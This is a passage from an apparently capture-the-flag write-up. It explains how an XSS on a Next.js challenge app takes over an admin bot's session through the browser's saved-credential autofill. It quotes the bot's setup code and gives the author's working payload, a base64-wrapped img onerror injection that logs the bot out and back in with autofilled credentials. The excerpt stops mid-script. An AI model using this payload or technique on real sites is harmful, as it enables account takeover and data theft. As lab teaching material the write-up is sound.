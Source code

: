 Now we just need the right xss payload to retrieve the flag. 

The flag is stored in the userSettings of the admin, as shown in the `bot.js` file. We don't have the credentials to log in as admin, but we don't need that since the browser has the autofill form enabled.

```js
// bot.js
...

// Launch Firefox with custom profile using persistent context
context = await firefox.launchPersistentContext(tempProfilePath, {
  headless: true,
  ignoreHTTPSErrors: true,
  acceptDownloads: false,
  firefoxUserPrefs: {
    'signon.rememberSignons': true,
    'signon.autofillForms': true,
  }
});

...

await page.click('a:has-text("Settings")');
// Fill in settings form
await page.waitForSelector('input[name="displayName"]', { timeout: 5000 });
console.log(`[+] Filling settings form with flag: ${FLAG}`);
await page.fill('input[name="displayName"]', FLAG);

...
```

So we can open a new window to:
- **logout** the bot from the previous session (our user that triggered the XSS), 
- visit `/login` by pressing the login button (just visiting `/login` won't do the trick due to nextjs handling the re-rendering), 
- we will have already the credentials filled, so we can just **submit the form**. 
- we can read the flag from the `/dashboard` or `/settings` page. 

Note that we can directly interact with the window from the XSS only because the XSS is triggered in the same origin, thus not violating the same-origin policy. 

My final xss payload:
```html
<img onerror=document.write(atob(\"" + encode_base64(xss_payload) + "\")) src='invalid-image' />
```

where `xss_payload` is:
```html
<script>
const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
(async () => {
    w = window.open('/')
    await sleep(1000);
    logoutbtn = w.document.getElementsByClassName('logout-btn')
    if (logoutbtn.length > 0) {
        // click logout button if exists
        w.document.getElementsByClassName('logout-btn')[0].click();
        await sleep(500);
    }
    // look for <a href="/login">Login</a> tag and click it
    w.document.querySelector('a[href="/login"]').click();
    // wait for autofill
    await sleep(1000);
    w.document.getElementsByClassName('btn')[0].click();
    // wait for redirect / login
    await sleep(1000);
```